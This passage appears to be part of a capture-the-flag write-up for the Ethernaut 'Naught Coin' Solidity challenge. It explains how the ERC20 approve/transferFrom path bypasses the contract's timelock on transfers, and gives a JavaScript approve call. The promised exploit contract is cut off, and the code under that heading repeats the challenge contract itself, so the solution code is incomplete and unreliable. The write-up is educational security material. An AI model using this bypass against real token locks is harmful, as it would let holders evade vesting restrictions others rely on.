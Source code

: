 ```sol

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

We have to transfer our token balance to other address but we are not allowed to transfer until 10 years are passed due to `lockTokens` modifier.

The `Naught Coin` inherts `ERC20` standards, In `ERC20` standards we can add `allowance` and `approve` other addresses to spend our tokens using  `transferFrom`.
We could make use of this functionality to transfer our tokens.

> #### Solution:
> - Deploy the exploit contract, then we need to approve our exploit contract to transfer the tokens, the INITIAL_SUPPLY of tokens was `1000000000000000000000000`, so we have to approve that many tokens.
> 
> ```js
> await contract.approve("0x6159cd67e0ed54ec7c5c90c183fdc8f681032139", value) 
> /* replace 0x6159cd67e0ed54ec7c5c90c183fdc8f681032139 with exploit instance */
> ```
> - Then we have to call the `callTransfer` function of our exploit contract to transfer the tokens.
> 
> 
> ```sol
> // SPDX-License-Identifier: MIT
> pragma solidity ^0.6.0;
> 
> import '@openzeppelin/contracts/token/ERC20/ERC20.sol';
> 
>  contract NaughtCoin is ERC20 {
> 
>   // string public constant name = 'NaughtCoin';
>   // string public constant symbol = '0x0';
>   // uint public constant decimals = 18;
>   uint public timeLock = now + 10 * 365 days;
>   uint256 public INITIAL_SUPPLY;
>   address public player;
> 
>   constructor(address _player) 